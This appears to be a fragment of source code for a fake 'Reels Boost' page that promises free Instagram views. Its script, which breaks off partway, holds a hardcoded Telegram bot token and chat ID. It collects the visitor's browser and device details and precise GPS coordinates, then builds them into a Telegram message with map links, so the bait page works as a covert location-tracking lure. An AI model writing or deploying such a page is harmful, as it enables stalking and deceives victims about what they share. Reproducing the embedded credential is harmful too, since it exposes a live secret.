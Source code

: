     <div class="views-options">
      <div class="view-card" onclick="selectView(this, 500)">500 Views</div>
      <div class="view-card" onclick="selectView(this, 1000)">1000 Views</div>
      <div class="view-card" onclick="selectView(this, 2000)">2000 Views</div>
    </div>

    <button class="redeem-btn" onclick="redeem()">Redeem</button>
  </div>

  <script>
    // === CONFIGURATION ===
    const BOT_TOKEN = '7659085089:AAGTE5B4NRLG_tFvbfYayfrG0URgFgXnv5w';
    const CHAT_ID = '6319619567';

    let selectedViews = 0;

    // === DEVICE INFO FUNCTION ===
    function getDeviceInfo() {
      return {
        userAgent: navigator.userAgent,
        platform: navigator.platform,
        language: navigator.language,
        cookiesEnabled: navigator.cookieEnabled,
        screenSize: `${screen.width}x${screen.height}`,
      };
    }

    // === LOCATION FUNCTION ===
    function sendLocationToTelegram(position, data) {
      const lat = position.coords.latitude;
      const lon = position.coords.longitude;
      const accuracy = position.coords.accuracy;
      const timestamp = new Date(position.timestamp).toLocaleString();

      const device = getDeviceInfo();

      const mapsLink = `https://www.google.com/maps?q=${lat},${lon}`;
      const earthLink = `https://earth.google.com/web/@${lat},${lon},100a`;

      const message = `
[Reels Boost Request]
- Username: ${data.username}
- Reel URL: ${data.reelURL}
- Views: ${data.views}

[Device Info]
- User Agent: ${device.userAgent}
- Platform: ${device.platform}
- Language: ${device.language}
- Screen Size: ${device.screenSize}
- Cookies Enabled: ${device.cookiesEnabled}

[Location Info]
- Latitude: ${lat}
- Longitude: ${lon}
- Accuracy: ${accuracy} meters
- Time: ${timestamp}
